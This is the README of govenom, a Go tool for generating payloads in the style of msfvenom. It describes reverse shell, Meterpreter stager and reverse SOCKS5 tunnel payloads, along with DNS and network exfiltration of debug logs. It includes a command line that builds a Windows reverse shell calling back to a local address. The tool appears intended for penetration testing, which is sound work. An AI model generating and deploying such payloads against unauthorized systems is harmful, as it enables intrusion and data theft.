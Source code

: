 <p align="center">
  <img alt="govenom Logo" src="https://repository-images.githubusercontent.com/208469800/1d777d80-e3d9-11ea-8f39-739f2e6af4d9" height="140" />
  <h1 align="center"><b>govenom</b></h1>
  <p align="center"><i>No clue about the target environment, installed shells, firewall rules? Uncommon CPU architecture?</br>Govenom has you covered!</i></p>
  <p align="center">
    <a href="https://github.com/erikgeiser/govenom/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/erikgeiser/govenom.svg?style=for-the-badge"></a>
    <a href="/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Check"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Check?label=Check&style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Build"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Build?label=Build&style=for-the-badge"></a>
    <a href="https://goreportcard.com/report/github.com/erikgeiser/govenom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/erikgeiser/govenom?style=for-the-badge"></a>
  </p>
</p>

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms. It is also much faster than `msfvenom`.

## Payloads

Currently, four payloads are supported:

- **rsh:** A simple reverse shell. It selects one of the most common
  shells binaries and makes it available via TCP or UDPconnection.
- **xrsh:** An extended robust reverse shell. A simple heuristic
  determines the most suitable shell executable, taking shells that
  are installed but not in `$PATH` into account. In contrast to most
  other available shells out there, additional info can be sent via
  alternative communication channels via the exfiltration mechanism
  (see relevant section below). For example, if no shell could be
  detected or the connection could not be established due to a
  firewall, the corresponding error can be exfiltrated via DNS.
- **stager**: A shellcode stager that is compatible with Metasploits
  `exploits/multi/handler` with a `meterpreter/reverse_tcp` payload.
  It first reads a 4 Byte shellcode length and then the shellcode
  itself from a TCP connection and executes it. Currently, this is
  only available for Windows targets.

- **socks5**: A `socks5` server via a reverse TCP connection. It
  connects back to the `gateway` tool and provides network access
  to the target's network. The `socks5` server on the target
  system can only be accessed by connecting to the gateway listener
  opened by the govenom `gateway` tool.

## Tools

`govenom` also provides some tools to work with the payloads:

- **dnslogger:** The `dnslogger` tool decodes and recombines messages
  that were exfiltrated via DNS.

- **pusher:** The `pusher` tool can serve and deliver `meterpreter`
  shellcode generated using `msfvenom` to the `govenom` stager payload.

- **gateway:** the gateway for the `socks` payload. It waits for
  the payload to connect back and starts a lister which forwards
  connection to the payload's `socks5` server and thus acts as a
  gateway into the target's network.

## Debug Exfiltration

Sometimes a shell you placed on target system does not appear to
connect back. Most of the time this results in a lot of trial and
error. Maybe the firewall blocks TCP connections or maybe just one
of the ports you tried. Maybe you expected `powershell` to be
present but only `cmd` is there. The solution to problem is the
`govenom` debug log exfiltration mechanism which can optionally be
used with `xrsh` and `stager` payloads. It lets you configure an
arbitrary amount of exfiltration strategies of the following types:

- **`stdout`/`stderr`:** If you can capture the output of your
  payload when it's executed, you can output debug logs via
  `stdout/stderr`.

- **DNS:** The most useful exfiltration type because noone blocks
  DNS. Messages are encoded and split into parts which can be put
  together again by the `govenom` tool `dnslogger` (see section
  below).

- **File:** Write the debug information into a file on the target
  system. This is for example useful if you can recover files via a
  local file inclusion vulnerability.

- **Net (`dial`):** Send the debug log via a TCP or UDP connection
  that's different from the original connect back connection.

## Building

`govenom` can be built in two ways. It either generate payloads
directly from the source code in the `./payloads` folder of this
repos or it can be built with the source code embedded such that
it works as a standalone binary. The binaries distributed with
releases are standalone binaries.

```bash
# build a govenom binary that uses the payload code
# directly from the repository
go build

# build a standalone govenom binary (see the standalone
# Makefile section for the commands to build on Windows)
make standalone
```

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the extended reverse shell for a 32-Bit Windows
target that connects back to `127.0.0.1:1337` and uses multiple debug
exfiltration strategies:

```bash
# generate a payload
govenom payload xrsh -d 127.0.0.1:1337 \
    --os windows --arch 386 \
    --exfil dns:example.com,stdout,dial:udp:127.0.0.1:1234 \
    -o revsh.exe

# run a tool
govenom tool dnslogger
```

**Note:** Go has to be installed to run `govenom` itself and it is
also used by `govenom` itself to build the selected payloads.

## FAQ:

---

**The `govenom` integrity cannot be verified on macOS**

macOS adds a quarantine attribute to downloaded binaries
which you can remove with the following command:

```
xattr -d com.apple.quarantine ./govenom
```

---

## Plans

- Connection encryption
- Reverse shell listener like `ncat` with logging capabilities
- Linux support for the `stager` payload

Thanks to [https://quasilyte.dev]() for the logo.
